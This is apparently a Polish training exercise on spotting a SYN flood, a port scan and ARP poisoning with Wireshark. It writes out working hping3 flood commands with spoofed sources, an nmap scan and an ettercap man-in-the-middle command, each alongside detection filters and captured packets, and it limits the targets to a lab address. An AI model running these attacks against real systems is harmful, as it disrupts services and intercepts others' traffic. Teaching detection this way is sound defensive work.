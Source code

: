 # Ćwiczenie - Wykrywanie i analiza ataku DDoS za pomocą narzędzia Wireshark

3-way handshake protokołu TCP
```sh
Klient  -- SYN=1 --> Serwer
Klient <-- SYN=1,ACK=1 -- Serwer
Klient  -- ACK=1 --> Serwer
Klient  -- dane --> Serwer
Klient <-- ACK=1 -- Serwer
```

Atak SYN flood

```sh
fałszywy klient -- SYN=1 --> serwer
fałszywy klient -- SYN=1 --> serwer
          <-- SYN=1,ACK=1 -- serwer
fałszywy klient -- SYN=1 --> serwer
fałszywy klient -- SYN=1 --> serwer
          <-- SYN=1,ACK=1 -- serwer
fałszywy klient -- SYN=1 --> serwer
fałszywy klient -- SYN=1 --> serwer
fałszywy klient -- SYN=1 --> serwer
prawdziwy klient -- SYN=1 --> server
prawdziwy klient   xxxxx      server (przepełniona kolejka TCP)
```

---

__Przykład ataku DDoS z losowych adresów ip__
Potrzebne narzędzia:
- na komputerze atakującego:
    `hping3` 
- na komputerze ofiary
    `wireshark`

Instalacja Debian/Ubuntu/Kali
```sh
sudo apt install -y hping3  
```

Instalacja Fedora/CentOS/Rhel
```sh
sudo dnf install hping3 
```

__Przeprowadzenie ataku DDoS z losowych adresów ip__
Uwaga, w całym ćwiczeniu adres `192.168.1.15` jest dla celów szkoleniowych adresem lokalnym, tak aby niepotrzebnie nie atakować realnych celów. Wykonując ćwiczenie należy podmienić ten adres na swój własny adres lokalny lub adres serwera/komputera, który mamy prawo atakować.

```sh
sudo hping3 -c 100000 -d 120 -S -w 64 -p 80 --flood --rand-source 192.168.1.15

# opis opcji
- c 100000 - wysłanie 100000 pakietów
- d 120     - rozmiar pakietu 120 bajtów
- S         - wysłanie pakietów z flagą SYN
- w 64      - okno TCP o rozmiarze 64 kilobajty
- p 80      - atak portu 80
- flood     - zastępujemy nasz adres docelowy pakietami z ustawionym nagłówkiem SYN 
- rand-source - jako źródło będą podawane losowe adresy ip
- 192.168.1.15 - adres atakowanego komputera ofiary 
```

__Filtry Wireshark pomagające w analizie ruchu sieciowego po stronie komputera ofiary__
Monitorując ruch sieciowy (np. z pomocą wireshark) możemy stosunkowo łatwo stwierdzić, że jest prowadzony na nas atak DoS lub DDoS. W celu zidentyfikowania ataku, możemy posłużyć się konkretnymi narzędziami/filtrami w wireshark 
```sh
# Pokazuje pakiety tylko z flagą SYN
tcp.flags.syn == 1 and tcp.flags.ack == 0
# Pokazuje pakiety z flagą SYN i flagą ACK
tcp.flags.syn == 1 and tcp.flags.ack == 1
# Pokazuje pakiety z flagą ACK ze źródła 35.131.58.4
tcp.flags.syn == 0 and tcp.flags.ack == 1 and ip.src == 35.131.58.4
# Pokazuje pakiety z flagą ACK, których źródłem nie jest 192.168.1.15  
tcp.flags.syn == 0 and tcp.flags.ack == 1 and ip.src != 192.168.1.15
# Pokazuje ilość wysłanych odpowiedzi z komputera ofiary z flagą SYN i ACK
tcp.flags.syn == 1 and tcp.flags.ack == 1 and ip.src == 192.168.1.15
```

Sprawdzamy informacje DNS o atakowanym celu, np. o domenie inseqr.pl

```sh
dig inseqr.pl
```
Otrzymujemy informację o adresie ipv4 serwera: 185.38.249.172

Zapisujemy do pliku ruchu pakietów przy otwieraniu strony inseqr.pl
```sh
tshark -i eth0 -w ruch_inseqr
```

Filtry do analizy ruchu w wiresharku (mogą być stosowane zarówno po stronie atakującego, jak i ofiary)
```sh
(ip.src == 192.168.1.15 or ip.src == 185.38.249.172) and (ip.dst == 185.38.249.172 or ip.dst == 192.168.1.15)
```

---

__Przykład ataku DDoS gdzie jako źródło podajemy adres komputera ofiary__
Ponownie wykorzystujemy narzędzie hping3

Instalacja Debian/Ubuntu/Kali
```sh
sudo apt install -y hping3  
```

Instalacja Fedora/CentOS/Rhel
```sh
sudo dnf install hping3 
```

Przeprowadzenie ataku DDoS z losowych adresów ip
```sh
sudo hping3 -c 100000 -d 120 -S -w 64 -p 80 --flood  -a 192.168.1.15 192.168.1.15

# opis opcji
- c 100000 - wysłanie 100000 pakietów
- d 120     - rozmiar pakietu 120 bajtów
- S         - wysłanie pakietów z flagą SYN
- w 64      - okno TCP o rozmiarze 64 kilobajty
- p 80      - atak portu 80
- flood     - zastępujemy nasz adres docelowy pakietami z ustawionym nagłówkiem SYN 
- a 192.168.1.15 - jako źródło podany jest adresy ip komputera ofiary
- 192.168.1.15 - adres atakowanego komputera ofiary 
```

__Wnioski płynące z ataku DDoS gdzie jako źródło podajemy adres komputera ofiary__
1. adres źródła jest taki sam jak adres przeznaczenia
    ```sh
    50641	3.718308539	192.168.1.15	192.168.1.15	TCP	174	53591 → 80 [SYN] Seq=0 Win=64 Len=120 [TCP segment of a reassembled PDU]
    ```
2. pakiety z flagą SYN następują bardzo szybko po sobie
3. porty nie zostają zwolnione a zostają cały czas zablokowane w związku z tym że klient wpada we własną pętle i nie jest w stanie odesłać potwierdzenia przyjęcia połączenia 
    ```sh
    74531	4.669268104	192.168.1.15	192.168.1.15	TCP	174	[TCP Port numbers reused] 11942 → 80 [SYN] Seq=0 Win=64 Len=120 [TCP segment of a reassembled PDU]
    ```


# Wykrywanie skanowania portów

Potrzebne narzędzia:
- na komputerze atakującego:
    `nmap`
- na komputerze ofiary
    `wireshark`


Skanowanie protokołów UDP i TCP na portach od 1 do 80 komputera ofiary na adresie ip 192.168.1.15
```sh
sudo nmap -sU -sT -p 1-80 192.168.1.15
```

Nagranie ruchu pakietów w czasie skanowania nmap'em na komputerze ofiary
```sh
tshark -w skanowanieNmap
```

Analiza przechwyconego ruchu z komputera ofiary za pomocą wiresharka
```sh
# filtr pokazujący tylko przychodzace pakiety z adresu 192.168.1.15
ip.src == 192.168.1.15
# filtr pokazujący przesłane pakiety z flagą SYN
ip.src == 192.168.1.15 and tcp.flags.syn == 1
# filtr pokazujący przesłane pakiety z flagą ACK
ip.src == 192.168.1.15 and tcp.flags.ack == 1
```

# ARP poisoning wireshark
Na poziomie sieci lokalnej do translacji adresów IP na adresy interfejsów sieciowych Mac służy tak zwany protokół ARP (Address Resolution Protocol). Komputer szukający adresu innego komputera wysyła broadcast w sieci lokalnej do wszystkich urządzeń

ARP request: _Kto ma adres 192.168.1.3, odpowiedz do 192.168.1.4_

w odpowiedzi otrzymuje 
ARP response: _192.168.1.3 jest pod adresem 00:00:00:00:00:03_

Na podstawie takiej komunikacji buduje swoją tablicę ARP składająca się z adresu IP oraz adresu MAC

Protokół ARP nie posiada mechanizmów autentykacji. Dlatego łatwo go wykorzystać do rozsyłania sfałszowanych adresów MAC, taki atak nazywamy ARP poisoning.

ARP poisoning - polega na tym że złośliwe urządzenie wysyła fałszywe informacje wskazujące że atakowany adres IP jest kojarzony z innym adresem MAC niż w rzeczywistości. Prowadzi to do fałszowania wpisów w tablicy ARP, przez co komunikaty wysłane pod określonym adresem IP nie wracają do właściwego komputera a do komputera atakującego. Jest to podstawa do ataku _Man In the Middle_. 


Potrzebne narzędzia do przeprowadzenia ataku:
- na komputerze atakującego:
    `ettercap`
- na komputerze ofiary
    `wireshark`

Sprawdzenie adresu IP i adresu MAC komputera atakującego
```sh
ip a
```

Sprawdzenie tablicy ARP na komputerze ofiary (zakładając system Linux lub podobny)
```sh
arp -a
```

Włączenie ARP poisoning'u na komputerze atakującego
```sh
sudo ettercap -T -q -i eth0 -w plikDoAnalizy -M ARP /192.168.1.15/ /192.168.1.103/

# Krótki opi komendy:
#   - sudo: podniesienie uprawnień użytkownika.
#   - ettercap: 
#       - T: interfejs tekstowy 
#       - q: tryb cichy
#       - i eth0: interfejs sieciowy na którym chcemy dokonać ataku
#   - w plikDoAnalizy: zapis komunikacji do pliku, który można otworzyć w Wiresharku
#   - M ARP: Wybór ARP poisoning do ataku MITM
#   - /192.168.1.15/: adres IP komputera ofiary
#   - /192.168.1.103/: adres IP komputera pod który się podszywamy
```

Efekt ataku na komputerze ofiary możemy przeanalizować z wykorzystaniem wiresharka. Rejestrujemy ruch pakietów. Ograniczamy widok widocznych pakietów wpisując w pole filtru nazwę protokołu arp: 
```sh
arp
```

